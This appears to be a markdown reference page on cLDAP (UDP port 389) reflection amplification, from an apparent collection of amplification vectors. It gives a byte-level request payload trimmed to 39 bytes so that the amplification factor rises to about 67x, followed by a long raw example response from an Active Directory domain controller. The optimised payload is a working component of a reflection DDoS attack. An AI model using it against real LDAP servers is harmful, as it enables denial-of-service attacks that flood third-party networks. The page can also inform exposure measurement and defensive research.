 # cLDAP (Connectionless Lightweight Directory Access Protocol)

## Port: 389

## Proto: UDP

## Amplification factor: 50-60x

---

### Refined payload

- From 51 to 39 bytes whilst remaining well-formed: <pre>0%\02\01\07c \04\00\n\01\00\n\01\00\02\01\00\02\01\00\01\01\00\87\0bobjectclass0\00</pre>
- Amplification factor increased to ~67x

### Example response

<pre>
0\84\00\00\0b\0e\02\01\07d\84\00\00\0b\05\04\000\84\00\00\n\fd0\84\00\00\00&\04\0bcurrentTime1\84\00\00\00\13\04\1120190922100706.0Z0\84\00\00\00R\04\11subschemaSubentry1\84\00\00\009\047CN=Aggregate,CN=Schema,CN=Configuration,DC=Mogambo,DC=D0\84\00\00\00\82\04\rdsServiceName1\84\00\00\00m\04kCN=NTDS Settings,CN=RC81230,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=Mogambo,DC=D0\84\00\00\00\bb\04\0enamingContexts1\84\00\00\00\a5\04\0fDC=Mogambo,DC=D\04 CN=Configuration,DC=Mogambo,DC=D\04*CN=Schema,CN=Configuration,DC=Mogambo,DC=D\04!DC=DomainDnsZones,DC=Mogambo,DC=D\04!DC=ForestDnsZones,DC=Mogambo,DC=D0\84\00\00\00-\04\14defaultNamingContext1\84\00\00\00\11\04\0fDC=Mogambo,DC=D0\84\00\00\00G\04\13schemaNamingContext1\84\00\00\00,\04*CN=Schema,CN=Configuration,DC=Mogambo,DC=D0\84\00\00\00D\04\1aconfigurationNamingContext1\84\00\00\00"\04 CN=Configuration,DC=Mogambo,DC=D0\84\00\00\000\04\17rootDomainNamingContext1\84\00\00\00\11\04\0fDC=Mogambo,DC=D0\84\00\00\03\a9\04\10supportedControl1\84\00\00\03\91\04\161.2.840.113556.1.4.319\04\161.2.840.113556.1.4.801\04\161.2.840.113556.1.4.473\04\161.2.840.113556.1.4.528\04\161.2.840.113556.1.4.417\04\161.2.840.113556.1.4.619\04\161.2.840.113556.1.4.841\04\161.2.840.113556.1.4.529\04\161.2.840.113556.1.4.805\04\161.2.840.113556.1.4.521\04\161.2.840.113556.1.4.970\04\171.2.840.113556.1.4.1338\04\161.2.840.113556.1.4.474\04\171.2.840.113556.1.4.1339\04\171.2.840.113556.1.4.1340\04\171.2.840.113556.1.4.1413\04\172.16.840.1.113730.3.4.9\04\182.16.840.1.113730.3.4.10\04\171.2.840.113556.1.4.1504\04\171.2.840.113556.1.4.1852\04\161.2.840.113556.1.4.802\04\171.2.840.113556.1.4.1907\04\171.2.840.113556.1.4.1948\04\171.2.840.113556.1.4.1974\04\171.2.840.113556.1.4.1341\04\171.2.840.113556.1.4.2026\04\171.2.840.113556.1.4.2064\04\171.2.840.113556.1.4.2065\04\171.2.840.113556.1.4.2066\04\171.2.840.113556.1.4.2090\04\171.2.840.113556.1.4.2205\04\171.2.840.113556.1.4.2204\04\171.2.840.113556.1.4.2206\04\171.2.840.113556.1.4.2211\04\171.2.840.113556.1.4.2239\04\171.2.840.113556.1.4.2255\04\171.2.840.113556.1.4.22560\84\00\00\00"\04\14supportedLDAPVersion1\84\00\00\00\06\04\013\04\0120\84\00\00\01\86\04\15supportedLDAPPolicies1\84\00\00\01i\04\0eMaxPoolThreads\04\19MaxPercentDirSyncRequests\04\0fMaxDatagramRecv\04\10MaxReceiveBuffer\04\0fInitRecvTimeout\04\0eMaxConnections\04\0fMaxConnIdleTime\04\0bMaxPageSize\04\16MaxBatchReturnMessages\04\10MaxQueryDuration\04\10MaxTempTableSize\04\10MaxResultSetSize\04\rMinResultSets\04\14MaxResultSetsPerConn\04\16MaxNotificationPerConn\04\0bMaxValRange\04\15MaxValRangeTransitive\04\11ThreadMemoryLimit\04\18SystemMemoryLimitPercent0\84\00\00\00%\04\13highestCommittedUSN1\84\00\00\00\n\04\08224379550\84\00\00\00I\04\17supportedSASLMechanisms1\84\00\00\00*\04\06GSSAPI\04\nGSS-SPNEGO\04\08EXTERNAL\04\nDIGEST-MD50\84\00\00\00&\04\0bdnsHostName1\84\00\00\00\13\04\11rc81230.Mogambo.D0\84\00\00\005\04\0fldapServiceName1\84\00\00\00\1e\04\1cMogambo.D:rc81230$@MOGAMBO.D0\84\00\00\00n\04\nserverName1\84\00\00\00\\\04ZCN=RC81230,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=Mogambo,DC=D0\84\00\00\00\b2\04\15supportedCapabilities1\84\00\00\00\95\04\161.2.840.113556.1.4.800\04\171.2.840.113556.1.4.1670\04\171.2.840.113556.1.4.1791\04\171.2.840.113556.1.4.1935\04\171.2.840.113556.1.4.2080\04\171.2.840.113556.1.4.22370\84\00\00\00\1c\04\0eisSynchronized1\84\00\00\00\06\04\04TRUE0\84\00\00\00"\04\14isGlobalCatalogReady1\84\00\00\00\06\04\04TRUE0\84\00\00\00\1e\04\13domainFunctionality1\84\00\00\00\03\04\0160\84\00\00\00\1e\04\13forestFunctionality1\84\00\00\00\03\04\0160\84\00\00\00(\04\1ddomainControllerFunctionality1\84\00\00\00\03\04\0160\84\00\00\00\10\02\01\07e\84\00\00\00\07\n\01\00\04\00\04\00</pre>
